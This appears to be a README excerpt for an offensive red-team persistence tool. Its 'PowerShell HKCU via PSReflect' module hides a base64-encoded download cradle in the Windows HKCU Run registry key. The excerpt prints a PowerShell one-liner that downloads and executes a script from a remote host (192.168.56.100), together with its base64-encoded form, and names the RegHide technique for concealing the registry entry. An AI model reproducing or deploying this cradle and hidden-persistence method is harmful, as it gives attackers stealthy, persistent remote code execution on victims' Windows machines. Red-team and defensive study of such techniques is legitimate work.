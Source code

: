 ## Modules

### PowerShell HKCU via PSReflect

Accepts a basic base64'd (to avoid escaping pain) download cradle.  Writes it to HKCU\Software\Microsoft\Windows\Run\`0pwned using a modified version of [PSReflect](https://github.com/mattifestation/PSReflect) and [RegHide](https://gist.github.com/brianreitz/feb4e14bd45dd2e4394c225b17df5741#file-psreflect-reghide-ps1).

![HKCU (PSH)](images/hkcu_psh.png)

Basic Example:

`iex ([System.Net.WebClient]::New().DownloadString('http://192.168.56.100/a'))`
`aQBlAHgAIAAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AF0AOgA6AE4AZQB3ACgAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA2AC4AMQAwADAALwBhACcAKQApAA==`